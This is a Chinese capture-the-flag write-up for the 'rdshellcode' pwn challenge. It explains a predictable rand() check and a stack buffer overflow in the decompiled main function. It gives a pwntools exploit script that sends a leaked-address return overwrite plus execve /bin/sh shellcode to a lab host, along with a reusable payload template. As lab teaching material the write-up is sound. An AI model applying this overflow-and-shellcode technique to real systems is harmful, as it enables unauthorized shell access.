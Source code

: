 # rdshellcode

打开附件，观察main函数:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[104]; // [rsp+0h] [rbp-70h] BYREF
  int v5; // [rsp+68h] [rbp-8h] BYREF
  int v6; // [rsp+6Ch] [rbp-4h]
 
  setvbuf(stdin, 0LL, 0, 0LL);
  setvbuf(stdout, 0LL, 1, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("I'm glad that you choose pwn");
  puts("But i am n0t sure you really love pwn or not");
  puts("Can't you prove yourself?");
  puts("Tell me something....");
  srand(0x2023u);
  v6 = rand() % 2 - 60;
  __isoc99_scanf("%d", &v5);
  if ( v6 != v5 )
  {
    puts("You DO Not Really Love PWN !");
    exit(1);
  }
  puts("Nice!!!!, you have proved your love for pwn");
  printf("It's time for me: %p\n", buf);
  puts("Dot' you want to make friends with me?");
  read(0, buf, 0x100uLL);
  return 0;
}
```

`v6`实际上是一个伪随机数，一直为-59，我们让`v5`的值为-59即可
然后程序会输出一个地址

![](./rdshellcode1.png)

发现地址是随机化的，所以我们要用pwntools里的内置函数读取printf出的buf的地址

```python
from pwn import *
p = remote("10.102.32.142",27714)
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
p.sendline(b'-59')
p.recvuntil(b':')
buf = p.recvline()
print(buf)
#shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
# shellcode = '\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05'
 
payload = b'A' * (0x70 + 8) + p64(int(buf,16) + 0x70 + 8 + 8)  + shellcode
p.sendline(payload)
p.interactive()
```

buf的栈深度是0x70，64位程序＋8，后面再＋8是shellcode地址的长度，于是我们可以得到如下模板

`payload = b'A' * (栈深度 + 8) + p64(int(栈地址,16) + 0x70 + 8 + 8)  + shellcode`

shellcode我们可以用pwntools生成

```python
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
```
